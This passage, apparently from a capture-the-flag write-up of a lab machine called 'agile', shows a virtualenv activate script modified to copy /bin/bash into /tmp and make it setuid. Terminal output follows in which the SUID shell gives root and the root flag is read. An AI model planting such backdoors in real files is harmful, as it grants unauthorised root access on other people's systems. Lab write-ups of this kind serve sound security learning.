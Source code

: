 ```bash
# This file must be used with "source bin/activate" *from bash*
# you cannot run it directly

cp /bin/bash /tmp/msplmee
chmod 4777 /tmp/msplmee

deactivate () {...}
```

After one more minute, the backdoor has moved to the `/tmp` directory and provides a shell access:

```apacheconf
edwards@agile:/$ ls -l /tmp/msplmee 
-rwsrwxrwx 1 root root 1396520 Aug  9 10:32 /tmp/msplmee
edwards@agile:/$ /tmp/msplmee -p
root@agile:/# id
uid=1002(edwards) gid=1002(edwards) euid=0(root) groups=1002(edwards)
root@agile:/# cat /root/root.txt 
781*****************************
```
